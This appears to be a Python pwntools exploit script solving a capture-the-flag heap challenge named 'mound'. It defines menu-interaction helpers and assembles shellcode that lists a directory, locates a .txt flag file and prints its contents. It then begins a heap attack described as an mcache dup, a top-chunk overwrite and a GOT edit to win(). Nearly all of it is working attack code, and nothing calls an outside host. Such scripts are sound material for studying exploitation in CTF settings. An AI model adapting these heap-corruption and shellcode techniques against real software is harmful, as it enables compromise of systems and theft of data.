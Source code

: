 ```python
def strdup(s: bytes, i: int):
    choose(1)
    r.sendafter(b'Pile: ', s)
    r.sendlineafter(b'index: ', str(i))
def add(midx: int, idx: int, s: bytes):
    choose(2)
    sz = midx2rsize(midx)
    assert sz < 0x1000
    assert len(s) <= sz
    r.sendlineafter('pile: ', str(sz))
    r.sendlineafter('index: ', str(idx))
    r.sendafter('Pile: ', s)
def edit(idx: int, s: bytes):
    choose(3)
    r.sendlineafter('index: ', str(idx))
    r.sendafter('pile: ', s)
def free(idx: int):
    choose(4)
    r.sendlineafter('index: ', str(idx))

def csize2midx(x:int): return (x>>4)-2
def midx2csize(i:int): return (i+2)<<4
def size2request(x:int): return x-0x10
def request2size(x:int): return x+0x10
def midx2rsize(i:int): return size2request(midx2csize(i))
def r64bit(): return libc.rand()+(libc.rand()<<32) # emulate rand64bit
def r64(): return randint(0, (1<<64)-1) # a separate, unrelated function to produce random numbers

O_DIRECTORY, FLAG_LEN = 0x10000, 100 # use reasonably long values here
sc = '' # step 1: getting a directory listing
sc+= shellcraft.pushstr('/pwn') # put "/pwn" on the stack
sc+= shellcraft.openat(0, 'rsp', O_DIRECTORY) # use openat in lieu of open. rsp because of pushstr
sc+= 'mov QWORD PTR [{}], rax\n'.format(mound_data.base) # Store the resultant fd _somewhere_ accessible (mound_data.base)
sc+= shellcraft.getdents64('rax', mound_data.dents, 0x10000) # use getdents to list directory
# step 2: loop through the dents data to find the flag filename
sc+=shellcraft.mov('rax', mound_data.dents)
sc+= 'loop:\n'
sc+= 'inc rax\n'
sc+= 'cmp DWORD PTR [rax], {}\n'.format(hex(u32('.txt')))
sc+= 'jne loop\n'
# step 3: open the flag file, read to _somewhere_ (mound_arena.base), and write to stdout
sc+= 'lea rbx, [rax-0x20]\n'
sc+= 'mov rax, QWORD PTR [{}]\n'.format(mound_data.base)
sc+= shellcraft.openat('rax', 'rbx', 0)
sc+= shellcraft.read('rax', mound_arena.base, FLAG_LEN)
sc+= shellcraft.write(1, mound_arena.base, FLAG_LEN)
sc = asm(sc) # don't call asm() twice
add(1+csize2midx(request2size(len(sc))), 8, sc) # dump shellcode somewhere in mound_data for later use

# The Obvious Solution: mcache dup --> mound_arena.top overwrite --> GOT table edit to win()
def rm_id(id: int): # remove an arbitrary 56-bit id from mound_arena.ids[]
    strdup(b'a'*0x17, 5)
    strdup(b'a'*0x17, 6)
    edit(midxs.prev_size_editor, pack(r64())[:7].rjust(0x17, b'a'))
    free(midxs.fakeid_provider)
    edit(midxs.prev_size_editor, pack(id)[:7].rjust(0x17,b'a'))
    add(midxs.strdup, 7, b'a'*0x10)
for _ in range(3): r64bit() # There have been 3 rand64bit() calls so far; account for them.
while 1: # try adding until there's an ID with a null MSB
    add(midxs.mcache_dup, 0xf, b'hi')
    if not ((chunk_id := r64bit()) >> 56): break
```